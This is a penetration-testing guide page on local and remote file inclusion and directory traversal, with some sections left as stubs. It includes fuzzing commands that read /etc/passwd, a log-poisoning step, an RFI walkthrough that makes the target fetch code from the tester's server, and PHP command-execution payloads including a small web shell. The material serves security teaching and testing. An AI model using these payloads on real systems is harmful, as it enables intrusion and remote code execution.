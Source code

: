 # 🛠️ File inclusion

## Theory

Many web applications manage files and use server-side scripts to include them. When input parameters \(cookies, GET or POST parameters\) used in those scripts are insufficiently validated and sanitized, these web apps can be vulnerable to file inclusion.

LFI/RFI \(Local/Remote File Inclusion\) attacks allow attackers to read sensitive files, include local or remote content that could lead to RCE \(Remote Code Execution\) or to client-side attacks such as XSS \(Cross-Site Scripting\).

Directory traversal \(a.k.a. path traversal, directory climbing, backtracking, the dot dot slash attack\) attacks allow attackers to access sensitive files on the file system, outside the web server directory. File inclusion attacks can leverage a directory traversal vulnerability to include files with a relative path.

## Practice

Testers need to identify input vectors \(parts of the app that accept content from the users\) that could be used for file related operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

* **Local File Inclusion** : inclusion of a local file \(in the web server directory\) using an absolute path
* **LFI + directory traversal** : inclusion of a local file \(in the web server directory or not\) by "climbing" the server tree with `../` \(relative path\)
* **Remote File Inclusion** : inclusion of a remote file \(not on the server\) using an URI

The tool [dotdotpwn](https://github.com/wireghoul/dotdotpwn) \(Perl\) can help finding and exploiting directory traversal vulnerabilities by fuzzing the web app. However, manual testing is usually more efficient.

```bash
# With a request file where /?argument=TRAVERSAL (request file must be in /usr/share/dotdotpwn)
dotdotpwn.pl -m payload -h $RHOST -x $RPORT -p $REQUESTFILE -k "root:" -f /etc/passwd

# Generate a wordlist in STDOUT that can be used by other fuzzers (ffuf, gobuster...)
dotdotpwn -m stdout -d 5
```

The tool [kadimus](https://github.com/P0cL4bs/Kadimus) \(C\) can help finding and exploiting File Inclusion vulnerabilities. However, manual testing is usually more efficient.

```bash
kadimus --user-agent "PENTEST" -u '$URL/?parameter=value'
```

Depending on the environment, file inclusions can sometimes lead to RCE \(Remote Code Execution\) by including a local file containing code previously injected by the attacker or a remote file containing code that the server can execute.

Local file inclusions can sometimes be combined with other vulnerabilities to achieve code execution

* directory traversal
* null-byte injection
* unrestricted file upload
* log poisoning

### 🛠️ LFI to RCE \(via logs poisoning\)

For instance, the tester can try to log in with SSH using a crafted login. On a Linux system, the login will be echoed in `/var/log/auth`. By exploiting a Local File Inclusion, the attacker will be able to make the crafted login echoed in this file interpreted by the server.

```bash
ssh '<?php phpinfo(); ?>'@$TARGET
curl --user-agent "PENTEST" $URL/?parameter=/var/log/auth.log&cmd=id
```

🛠️ Introduce other examples, like apache session logs

* /var/log/apache/access.log
* /var/log/apache/error.log
* /var/log/vsftpd.log
* /var/log/sshd.log
* /var/log/mail

### 🛠️ LFI to RCE \(via phpinfo\)

### 🛠️ LFI to RCE \(via file upload\)

### 🛠️ LFI to RCE \(via php wrappers\)

* php://file
* php://filter
* php://input
* expect://
* data://text/plain;base64,command

### 🛠️ LFI to RCE \(via /proc\)

* /proc/self/environ
* /proc/self/fd

### 🛠️ LFI to RCE \(via php session\)

🛠️ Introduce php wrappers

PHP wrappers can be combined with a [file upload](unrestricted-file-upload.md) to achieve RCE.

1. Upload a `.zip` file containing a PHP code execution script \(`rce.php`\)
2. Trigger the code execution by requesting `http://some.website/?page=zip://path/to/file.zip%23rce.php`.

### RFI to RCE

The tester can create a `phpinfo.php` containing `<?php phpinfo(); ?>` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the phpinfo in the response.

{% hint style="warning" %}
If the the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.
{% endhint %}

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```

If the phpinfo has been successfully printed in the response, the tester can engage a more offensive approach by trying to execute code with one of the following payloads.

{% hint style="info" %}
As code execution functions can be filtered, the phpinfo testing phase is required to assert that arbitrary PHP code is included and interpreted.
{% endhint %}

```php
<?php system('whoami'); ?>
<?php exec('whoami'); ?>
<?php passthru('whoami'); ?>
<?php shell_exec('whoami'); ?>
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```

## References

{% embed url="https://www.acunetix.com/websitesecurity/directory-traversal" caption="" %}

{% embed url="https://portswigger.net/web-security/file-path-traversal" caption="" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/05-Authorization\_Testing/01-Testing\_Directory\_Traversal\_File\_Include.html" caption="Directory traversal and File Include" %}

{% embed url="https://owasp.org/www-community/attacks/Path\_Traversal" caption="Testing for Directory traversal" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.2-Testing\_for\_Remote\_File\_Inclusion.html" caption="Testing for Remote File Inclusion" %}

{% embed url="https://owasp.org/www-project-web-security-testing-guide/latest/4-Web\_Application\_Security\_Testing/07-Input\_Validation\_Testing/11.1-Testing\_for\_Local\_File\_Inclusion.html" caption="Testing for Local File Inclusion" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" caption="" %}

